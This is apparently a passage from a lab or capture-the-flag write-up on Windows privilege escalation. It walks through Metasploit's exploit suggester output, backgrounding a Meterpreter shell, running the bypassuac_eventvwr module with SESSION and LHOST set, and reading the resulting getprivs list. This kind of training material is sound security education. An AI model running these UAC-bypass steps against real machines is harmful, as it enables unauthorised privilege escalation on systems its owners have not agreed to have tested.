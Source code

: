 ```
 9   exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
 ```

 > The full path of the first returned exploit *that includes the term eventvwr* is **exploit/windows/local/bypassuac_eventvwr**

 - *Ctrl + z* to background meterpreter shell
 - <code>use exploit/windows/local/bypassuac_eventvwr</code> will switch us into the bypassuac_eventvwr module
    - Use <code>show options</code> to display options for the module and <code>set SESSION \<session number></code> to select the session you just backgrounded
    - <code>set LHOST</code> to attack machine IP
    - Use <code>run</code> or <code>exploit</code> to start

### We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?

<code>getprivs</code> returns:

```
Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
